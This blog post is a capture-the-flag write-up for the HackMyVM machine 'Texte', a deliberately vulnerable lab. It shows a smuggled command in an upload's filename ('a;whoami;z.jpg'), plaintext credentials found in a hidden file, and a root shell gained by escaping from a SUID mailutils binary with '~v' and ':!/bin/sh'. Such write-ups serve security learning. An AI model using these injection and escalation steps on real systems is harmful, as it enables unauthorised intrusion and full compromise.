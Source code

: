 ```yaml
---
layout: post
title:  "HackMyVM: Texte"
date:   2022-01-05 20:00:00 +1000
category: hacking
---
```


This is [Texte](https://hackmyvm.eu/machines/machine.php?vm=Secrets). It's Medium rated, and it was pretty great.

## Ports
SSH and HTTP only.

### HTTP
The frontpage has a simple UI to upload a file, and says:

>Dont upload .PHP FILES! STOP BITCHING. 

Lol. I run a dirsearch, but there's nothing else. I try a text file and get the message:

>File not allowed.

That surprised me a bit. Next I try a JPG, and it's fine. What happens though is the file doesn't seem to get saved anywhere, but it is inserted into the response as a base64 encoded PNG. So we have some sort of image processing on the server. I assume it might be ImageTragick, but trying some payloads demonstrates this is definitely not the case. Some googling leads me to [this page](https://www.onsecurity.io/blog/file-upload-checklist/#rce-via-the-file-name-parameter), and I find we do have command injection in the filename. 

``
filename="a;whoami;z.jpg"
``

Gives

``
<img src="data:image/png;base64,www-data
" alt="Happy" />
``

I try a few shell payloads but get nothing, it doesn't seem to like spaces. So I try a simple 'ls' and get:

>index.html  
uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt  
upload.php

Well, dirsearch/feroxbuster was never going to find that!

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/texte]
└─# wget http://10.10.10.53/uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt                                                1 ⨯
--2022-01-05 04:39:34--  http://10.10.10.53/uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt
Connecting to 10.10.10.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23 [application/octet-stream]
Saving to: ‘uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt’

uiydasuiydasuicyxzuicyxziuctxzids 100%[============================================================>]      23  --.-KB/s    in 0s      

2022-01-05 04:39:34 (3.54 MB/s) - ‘uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt’ saved [23/23]

                                                                                                                                       
┌──(root💀kali)-[/opt/hackmyvm/texte]
└─# cat uiydasuiydasuicyxzuicyxziuctxzidsauidascxzAAA.txttxttxt 
kamila/hahaha$$$hahaha
                                                                                                                                       
┌──(root💀kali)-[/opt/hackmyvm/texte]
└─# ssh kamila@10.10.10.53
The authenticity of host '10.10.10.53 (10.10.10.53)' can't be established.
ED25519 key fingerprint is SHA256:3sK6QuqXMkzz9iqf8s+b9Hz1n9FnJFafQ1J2HnbOruk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.53' (ED25519) to the list of known hosts.
kamila@10.10.10.53's password: 
Linux texte 5.10.0-8-686-pae #1 SMP Debian 5.10.46-5 (2021-09-23) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Oct  8 05:37:55 2021 from 192.168.1.51
kamila@texte:~$ sudo -l
-bash: sudo: command not found
{% endhighlight %}

## Privesc
We've got an SUID binary in /opt:

{% highlight shell %}
kamila@texte:/opt$ ls -lash
total 24K
4.0K drwxr-xr-x  2 root root   4.0K Oct  8 05:46 .
4.0K drwxr-xr-x 18 root root   4.0K Oct  8 05:33 ..
 16K -rwsr-sr-x  1 root kamila  16K Oct  8 05:46 texte
{% endhighlight %}
 
 If we run strings, we find this line:
 
 ``
 /usr/bin/mail -s 'Remember,dont upload PHP files.' kamila@localhost
 ``
 
 So we've got a fully quoted binary path, so no dice there. What is /usr/bin/mail?
 
{% highlight shell %}
 kamila@texte:/opt$ file /usr/bin/mail
/usr/bin/mail: symbolic link to /etc/alternatives/mail
kamila@texte:/opt$ file /etc/alternatives/mail
/etc/alternatives/mail: symbolic link to /usr/bin/mail.mailutils
kamila@texte:/opt$ file /usr/bin/mail.mailutils
/usr/bin/mail.mailutils: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=54d4a357c9c43e5e3dadb03ef7727a580964eaa0, for GNU/Linux 3.2.0, stripped
{% endhighlight %}
 
 Right, so we have **mail.mailutils**. Running the program gives a simple interface to compose a mail message. The mail does get sent to kamila@localhost:
 
 {% highlight shell %}
 kamila@texte:/opt$ cat /var/mail/kamila
From root@texte Wed Jan 05 04:47:47 2022
Return-path: <root@texte>
Envelope-to: kamila@localhost
Delivery-date: Wed, 05 Jan 2022 04:47:47 -0500
Received: from root by texte with local (Exim 4.94.2)
        (envelope-from <root@texte>)
        id 1n52tX-0003Xl-9o
        for kamila@localhost; Wed, 05 Jan 2022 04:47:47 -0500
Subject: Remember,dont upload PHP files.
To: <kamila@localhost>
X-Mailer: mail (GNU Mailutils 3.10)
Message-Id: <E1n52tX-0003Xl-9o@texte>
From: root@texte
Date: Wed, 05 Jan 2022 04:47:47 -0500

whatever
# etc
{% endhighlight %}
 
 If we go and [read the documentation](https://mailutils.org/manual/mailutils.html#Composing-Mail), we can see that running **~v** breaks us out into an editor, and then we can just do 
 
 ``
 :!/bin/sh
``
 
 to get a root shell, and we're done. I did try **~e** first but it didn't work:
 
{% highlight shell %}
 kamila@texte:/opt$ ./texte 
Cc: 
~e
/bin/bash: line 1: ed: command not found
(continue)
id

 ~v

# id;hostname;date
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(kamila)
texte
Wed 05 Jan 2022 04:55:14 AM EST
# cd /root
# ls -lash
total 24K
4.0K drwx------  3 root root 4.0K Oct  8 05:47 .
4.0K drwxr-xr-x 18 root root 4.0K Oct  8 05:33 ..
4.0K -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Oct  8 05:43 .local
4.0K -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4.0K -rw-------  1 root root   12 Oct  8 05:47 root.txt
#
{% endhighlight %}

I enjoyed this one :)
